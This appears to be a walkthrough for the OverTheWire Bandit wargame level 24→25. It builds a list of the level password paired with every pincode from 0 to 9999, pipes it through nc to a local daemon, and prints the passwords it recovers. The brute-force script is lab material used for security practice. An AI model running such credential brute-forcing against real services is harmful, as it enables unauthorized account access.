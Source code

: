 This sounds like a perfect job for a for loop in bash! You may want to read more about looping in bash [here](http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO-7.html).

First let's see how the daemon behaves. 

```console
bandit24@bandit:/tmp/bd2425$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
Wrong! Please enter the correct pincode. Try again.
```

Okay looks like if we enter the wrong pin then it ruturns an error and it allows multiple input. So now we can create essentially a dictionary file with the format "password pin" for 0000-9999.

Let's create a temp directory and our dictionary:

```console
bandit24@bandit:/tmp/bd2425$ for i in $(seq 0000 9999); do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> pincodes.txt; done
bandit24@bandit:/tmp/bd2425$ head pincodes.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 3
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 4
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 6
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 7
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 8
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9
bandit24@bandit:/tmp/bd2425$ tail pincodes.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9990
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9991
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9992
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9993
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9994
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9995
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9996
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9997
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9998
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999
```

Looks good now let's feed it to `nc` and invert-match using `grep`.

```console
bandit24@bandit:/tmp/bd2425$ nc -nv 127.0.0.1 30002 < pincodes.txt | grep -v Wrong
Connection to 127.0.0.1 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
Exiting.
```

> **Username:** bandit24
> **Password:** UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

---